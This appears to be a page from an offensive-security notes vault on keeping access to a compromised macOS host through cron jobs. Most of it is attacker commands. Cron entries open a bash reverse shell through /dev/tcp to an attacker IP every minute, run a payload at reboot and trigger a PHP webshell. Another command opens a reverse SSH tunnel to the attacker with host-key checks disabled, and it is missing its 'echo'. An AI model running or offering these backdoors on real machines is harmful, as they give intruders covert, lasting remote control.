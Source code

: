 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - osx
---
```

# Living off the Land

## 01 - Usage

> [!IMPORTANT] Conditions
> Cron job service must be enabled.

Open an editor via crontab.

```
$ sudo crontab -e
```

This will execute every minute to trigger the backdoor.

```
$ sudo echo "* * * * * <commands>" >> /etc/crontab

$ sudo echo "$(echo '* * * * * <commands>')" | crontab -

$ echo "* * * * * <commands>" | crontab -

$ echo "$(echo '* * * * * <commands>')" | crontab -

$ crontab -l
```

## 02 - Callback Payloads

Reverse Shell Backdoor

```
$ sudo echo "* * * * * /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /etc/crontab

$ sudo echo "@reboot nohup /home/<username>/.directory/payload" >> /etc/crontab
```

Webshell backdoor

```
$ sudo echo "* * * * * php -f /var/www/html/logout.php" >> /etc/crontab
```

## 03 - Reverse SSH Tunnel

Refer to this [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Linux/Remote Login/SSH/Manual/Living off the Land|section]] for more context.

```
$ sudo "* * * * * nohup ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o \"UserKnownHostsFile=/dev/null StrictHostKeyChecking=no\" <username>@<attacker_IP>" >> /etc/crontab
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/OSX/Backdoors/Scheduled Tasks/Malware Development/Helpers]]

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Linux/Backdoors/Scheduled Tasks/Manual/Living off the Land]]